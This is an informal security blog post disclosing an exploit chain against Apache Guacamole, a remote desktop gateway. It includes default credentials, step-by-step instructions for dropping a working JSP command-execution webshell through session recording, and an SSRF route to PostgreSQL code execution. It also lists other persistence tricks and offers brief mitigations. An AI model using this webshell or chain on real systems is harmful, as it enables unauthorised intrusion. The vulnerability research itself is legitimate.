






While doing research on various topics, I stood upon Guacamole, a software that can be used as a connection bastion or protocolar gateway. It has many original vulnerabilities that lead to a Remote Code Execution once chained. Let's begin, shall we?




## What the doc says

Apache Guacamole is a clientless remote desktop gateway. It supports standard protocols like VNC, RDP, and SSH.


## Setup the test environment

There is a clear documentation that explains the setup process both with and without docker, you can read it here: 

https://guacamole.apache.org/doc/gug/guacamole-docker.html

But hey, who's got time for that? Let's just run a random docker found on the internet! (Shh, it's gonna be alright, just don't quote me on that, okay?)

A decent one can be found here, it has all the components in one single docker, it's not best practice, it's all we need (and want) for now. 

https://github.com/oznu/docker-guacamole

```bash
docker run --rm -it --net=host oznu/guacamole
```



Woosh! Setup done! Thank you, random citizen!


## PostAuth to PreAuth

I haven't looked at the authentication process (yet?), but I found a default account `test:test` in bug bounty once, and for most of the guacamole-based projects, the default credentials are `guacadmin:guacadmin`, so let's just assume that you found an account with weak credentials. :)


## General Idea

This protocolar gateway allows its users to connect to various hosts using `telnet, ssh, vnc, rdp, k8s`. \
Ok. Cool. Whatever. 

The `"telnet"` feature offers to write a `Typescript` recording of the session in a specified directory and file. 

Here, telnet is just offering you to open a socket to another host:port. And here, typescript recording basically means write plaintext with a small header and footer (garbage). 

- Are there any restrictions on the IP and PORT we can connect to? Nope!
- Are there any restrictions on the file DESTINATION and EXTENSION? Nope!

A few more things to consider before we move on: 

- There is a Tomcat webserver exposing http 8080 and ajp 8009
- There is a PostgreSQL server on port 5432
- There is a guacd server on port 4822

While first logging in we're offered an empty list of connections to use: 



The end user can create many connections in the settings panel




## Exploit chain 1 - Write a JSP WebShell with TypeScript recording

Use the file write to create a jsp webshell in tomcat's webroot folder, and trigger it afterward. 
Here, guacd runs as root, tomcat is in the same docker, and its home folder is `/usr/local/tomcat`. 

<video class="img_full" controls>
  <source src="exploit-chain-1.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>


```md
# Login
guacadmin:guacadmin


# Create connection
http://127.0.0.1:8080/#/settings/postgresql/connections
/usr/local/tomcat/webapps/ROOT
rce.jsp


# Drop webshell
http://127.0.0.1:8080/
open side panel with ctrl+alt+shift
copy from foo to bar to enforce new line that will end the connection and trigger file write

foo

<%= new java.util.Scanner(Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream()).useDelimiter("YOLO").next() %>

bar

# Trigger webshell
http://127.0.0.1:8080/rce.jsp?cmd=id
```


## Exploit chain 2 - PostgreSQL RCE through the trusted SSRF access

Use the SSRF to reach postgres, benefiting from the fact that postgres trusts requests coming from the loopback to the loopback. 

No good-looking demo here as the automation part will be detailed in the next blogpost, but it goes like this: 

1. Login
1. Create a telnet connection to postgreSQL (5432)
1. Use the SSRF and copy paste feature to replay the bytes from...
1. The Metasploit module `multi/postgres/postgres_copy_from_program_cmd_exec`, or any other way to execute code with postgres
1. Enjoy your reverse shell/meterpreter/duck (pick one)

This works for the following reasons: 

- No restriction is made on the host nor port guacd can use
- It is possible (yet tricky) to send raw bytes with the guacamole websocket (wait for the next blogpost!)
- The link to postgreSQL is trusted (see `pg_hba.conf` and `postgresql.conf`), thus requires no challenge-response

Here is an example showing that a simple stateless raw byte replay is enough if the link is trusted. 




## Exploit chains 3,4,5,6,7,8,*

There are many different ways to exploit these primitives, I'm not going to detail them all, but here are a few: 

- Write a public key in `~/.ssh/authorized_keys2` to avoid overwriting keys, then ssh your way in. This works even if ssh isn't exposed as guacamole itselfs offers you to login to its loopback. Shoutout to [Podalirius](https://twitter.com/podalirius_) for the time spent troubleshooting [rsa key format issues](https://issues.apache.org/jira/browse/GUACAMOLE-745) with me!
- Overwrite a user's dotfiles and wait for them to login (tedious, destructive)
- Fuzz the guacd binary (after all why not, it's almost pure C!) and hit it using the SSRF
- Add an entry in `/etc/ld.so.conf.d/foo.conf` or mess with `/etc/ld.so.preload` (be careful, DOS in sight)
- SSRF to a trusted AJP link on the loopback, GhostCat file include if you're lucky!
- Exploit any other service with the SSRF and/of the file write. 


## Limitations

Here, the exploitation is eased because all the components are in the same docker. In the real world, most installations have strong passwords (jajaja), and are using a docker-compose. 

Using docker-compose implies a few things:

- Tomcat, Guacd, and PostgreSQL are now in different "hosts" (dockers)
- The SSRF is "half one way", arbitrary bytes can be sent, but we only receive a screenshot back. This implies that non-printables bytes are lost. This is painful for handshakes & challenges. 
- The file write occurs in Guacd, implying we can't write on Tomcat's webroot
- The SSRF comes and can reach Guacd's loopback, it still can reach the internal network, but can't reach the other components's loopback
- PostgreSQL doesn't trust our connection anymore (auth in place)
- File write to crontabs are nowadays useless if it's not a clean file write. If garbage is found in any line, the crontab gets invalidated.
- Etc etc etc

Overall, it just gets harder and depends `a lot` on the setup in use.

This is because of this lack of consistency on the techniques found that there is no one-for-all sploit released, just click buttons like you're on windows ffs!


## Timeline

- Some day: Found weak creds in bug bounty, discovered guacamole
- Some next day: Found exploit primitives
- Some other day: [Full disclo](https://en.wikipedia.org/wiki/Full_disclosure), we're all doomed anyway...

Full disclosure because:

- It's painful to check which version is and isn't vulnerable
- It's a `HUGE` time drain to `try` to convince folks that this `is` vulnerable
- It's basically free work
- Patchs are often silent: "Oh and shut up about it please!"


## Mitigations

- Prevent acces to the loopback
- Add a whitelist of reachable hosts
- Enforce the extension and path used for saving recordings


## Automation

There were a lot of clicks, right? It's only within guacamole, and it's not much used, riiiight?

Well, the underlying protocol (guacd through a websocket) is quite painful to mimic, and if the connection breaks, the exploit will fail, this is why we're only clicking for now, the browser does all the heavy lifting for us. 

That being said, for the complete automation (puppeteer & websocket hooks), real targets (Pulse Secure VPN before version 9.1R13), and a (sadly almost) full demo, see you the 18th of December 2021 at the [RTFMeet](https://twitter.com/sigsegv_event/status/1461296081002803201), I'll be giving a talk and full demo on how this can be automated & exploited despite some complexity found in the guacd protocol. 

Don't worry tho, if you can't attend, it'll also be detailed in the next blogpost `Failed02 - Exploiting Pulse Secure VPN through guacamole & Trust Issues`

Until then, have fun legally breaking/fixing stuff, and see you on 18th of December for the [RTFMeet](https://twitter.com/sigsegv_event/status/1461296081002803201)! =^~^=


## Update 1 - 24/11/2021

Full disclosure `on guacamole` because:

- It's post-auth, so if you're doing things the right way, you're "fine"
- This specific exploit-chain only works on an unofficiel docker image and requires extra work otherwise
- The docker-compose file mitigates some vectors, and you'll end up in a docker anyway



**TL;DR**: The exploit was `trivially found`. \
Only a very small portion of the source code and features have been audited, anyone in possession of an admin or privileged account could find a way to get code execution, so it's not much of a leak. \

That being said, I'm sorry. 

Lastly: It's either `blatantly irresponsibly` (because it's true) or `indeed wrong` (thus not something to care about), can't be both ~ 💕
